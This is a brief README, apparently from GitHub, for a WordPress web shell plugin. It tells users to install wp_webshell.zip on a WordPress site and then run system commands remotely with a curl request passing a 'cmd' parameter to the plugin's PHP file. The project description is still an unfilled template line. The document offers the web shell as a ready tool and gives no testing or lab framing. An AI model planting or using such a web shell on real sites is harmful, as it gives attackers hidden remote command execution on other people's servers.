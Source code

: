 # Webshell Plugin Wordpress

A brief description of what this project does and who it's for

## Usage
- Clone this repository and install the `wp_webshell.zip` plugin on your WordPress instance.
<img width="984" height="116" alt="IMG" src="https://github.com/user-attachments/assets/4ed64787-14a4-46f7-be66-84e9c4167012" />

-  Use the web shell from the browser or terminal.
```bash
curl http://example.com/wp-content/plugins/wp_webshell/wp_webshell.php?cmd=id
```
<img width="838" height="72" alt="IMG" src="https://github.com/user-attachments/assets/4fd9260b-b448-441c-938a-e5c6248dc9b2" />
